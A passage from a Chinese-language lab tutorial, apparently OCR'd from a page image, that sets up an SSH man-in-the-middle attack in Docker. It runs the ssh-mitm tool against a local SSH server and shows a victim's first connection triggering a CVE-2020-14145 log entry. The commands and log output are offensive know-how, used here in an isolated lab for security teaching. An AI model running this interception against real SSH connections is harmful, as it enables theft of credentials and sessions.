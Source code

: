 #### **第二步：启动中间人攻击**



1. **安装并运行 `ssh-mitm`**

   打开一个新的终端，在攻击机上使用 Docker 运行 `ssh-mitm`。

   Bash

   ```
   docker run -it --rm --name attacker --network ssh-mitm-net -p 10022:10022 sshmitm/ssh-mitm:latest server --remote-host ssh-server
   ```

   - **解释**:
     - `--rm`: 容器停止后自动删除。
     - `--name attacker`: 命名为 `attacker`。
     - `-p 10022:10022`: 将主机的 10022 端口映射到 `ssh-mitm` 服务的端口。
     - `sshmitm/ssh-mitm:latest`: 使用官方的 `ssh-mitm` Docker 镜像。
     - `server --remote-host ssh-server`: 这是 `ssh-mitm` 的启动命令，`server` 表示启动中间人服务器，`--remote-host ssh-server` 指定了真实的 SSH 服务器地址（在这里是我们的 `ssh-server` 容器名）。

   当 `ssh-mitm` 成功启动后，你会看到类似以下的日志信息，表示它正在监听 10022 端口。

   ```
   INFO     Starting SSH-MITM server on 0.0.0.0:10022
   ```

------



#### **第三步：演示漏洞**



现在，我们将从 `victim` 容器中发起 SSH 连接，并通过 `attacker` 的日志来观察漏洞的效果。

1. **首次连接 (模拟新用户)**

   回到 `victim` 容器的终端，执行以下命令，通过 `ssh-mitm` 代理连接到 `ssh-server`。

   Bash

   ```
   # 在 victim 容器内执行
   ssh -p 10022 testuser@attacker
   ```

   - **解释**: 我们连接的是 `attacker` 容器的 10022 端口，`ssh-mitm` 会将这个连接请求转发给 `ssh-server`。

   此时，你会看到首次连接的确认提示：

   ```
   The authenticity of host '[attacker]:10022 ([...])' can't be established.
   ECDSA key fingerprint is SHA256:....
   Are you sure you want to continue connecting (yes/no/[fingerprint])?
   ```

   同时，在 `attacker` 容器的日志中，你会看到关键信息：

   ```
   INFO     [CVE-2020-14145] Client connecting for the FIRST time!
   ```
